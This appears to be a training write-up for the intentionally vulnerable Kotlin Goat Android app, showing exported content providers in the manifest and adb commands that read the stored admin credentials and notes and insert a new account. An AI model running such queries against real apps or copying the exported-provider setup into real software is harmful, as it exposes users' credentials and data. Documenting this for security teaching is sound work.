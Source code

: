 M1: Improper Platform Usage
===========================
From the [Android documentation][4]: "_Content providers are one of the primary
building blocks of Android applications, providing content to applications_".
Content providers are mostly used to share data between Android applications.
Such as Activities, Services or Receivers, Content providers can have weak
permissions or can be exported for all the apps on the device. Such
misconfiguration can lead the Android app to leak the data used by the Content
provider.

When the Content provider is exported, all the apps can query the Content
provider to retrieve or modify the data. On the [Kotlin Goat app][0], we can
identify that a Content provider is defined with the name `.AccountProvider` and
the exported tag is set to true. Here is an extract of the `AndroidManifest`
file:

```xml
<provider
    android:name=".AccountProvider"
    android:authorities="com.cx.vulnerablekotlinapp.accounts"
    android:enabled="true"
    android:exported="true" />
```

Looking at the code on the `AccountProvider.kt` class, we can retrieve the
Content URI:

```xml
companion object {
    private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
    private val ACCOUNTS_TABLE = "Accounts"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
    private val DATABASE_NAME = "data"
}
```

Then, using the `adb` tool, we can query this provider and even insert data.
Here is simple example allowing to query the provider in order to retrieve the
accounts stored:

```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
```

We can obtain the admin's credentials in this case.


Here is another example allowing to add a new account into the Kotlin Goat app:

```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat
```

Below you can see this is action

<center>
    <iframe width="560" height="315" src="https://www.youtube.com/embed/U5czs2s8Ifc" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
    <p><a href="https://www.youtube.com/watch?v=U5czs2s8Ifc">Watch on Youtube</a></p>
</center>

In the same manner, the app leaks a Content provider named `.NotesProvider` for
the notes created by the user.

Here is the definition of the Content provider in the Android manifest:

```xml
<provider
    android:name=".NotesProvider"
    android:authorities="com.cx.vulnerablekotlinapp.notes"
    android:enabled="true"
    android:exported="true"></provider>
```

As shown previously, we can obtain the Content URI by analyzing the
`NotesProvider` class:

```kotlin
companion object {
    private val AUTHORITY = "com.cx.vulnerablekotlinapp.notes"
    private val NOTES_TABLE = "Notes"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                NOTES_TABLE)
    private val DATABASE_NAME = "data"
}
```

Again, with the `adb` tool, we can query this provider and retrieve the notes
stored:

```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.notes/Notes
Row: 0 id=1, title=whvw, content=whvw, createdAt=2019-01-07 14:58:32, owner=1
```

For this provider, we can observe that the notes are not stored in clear text
(the title and content of the note should be "test").
This encryption mechanism is further analyzed in the [M5: Insufficient
Cryptography][8] section.

This issue was fixed on [Kotlin Goat][0]: you can find it on
[feature/m1-improper-platform-usage branch][10].

More information about how to test improper platform usage can be found on the
[OWASP Mobile Testing Guide][5] and especially on the [Testing Platorm
Interaction][6] section.

## Resources

### Tools

* [adb][9]
* [apktool][1]
* [jadx][2]
* [jd-gui][3]

### Readings

* [Android documentation: Content Provider][4]
* [Testing Platform Interaction][6]
* [OWASP Mobile Testing Guide][5]
* [OWASP Mobile Top 10 2016: M1 - Improper Platform Usage][7]

[0]: https://github.com/PauloASilva/KotlinGoat
[1]: https://github.com/skylot/jadx
[2]: http://jd.benow.ca/
[3]: https://ibotpeaches.github.io/Apktool/
[4]: https://developer.android.com/reference/android/content/ContentProvider
[5]: https://www.owasp.org/index.php/OWASP_Mobile_Security_Testing_Guide
[6]: https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md
[7]: https://www.owasp.org/index.php/Mobile_Top_10_2016-M1-Improper_Platform_Usage
[8]: ../m5-insufficient-cryptography
[9]: https://developer.android.com/studio/command-line/adb
[10]: https://github.com/PauloASilva/KotlinGoat/tree/feature/m1-improper-platform-usage
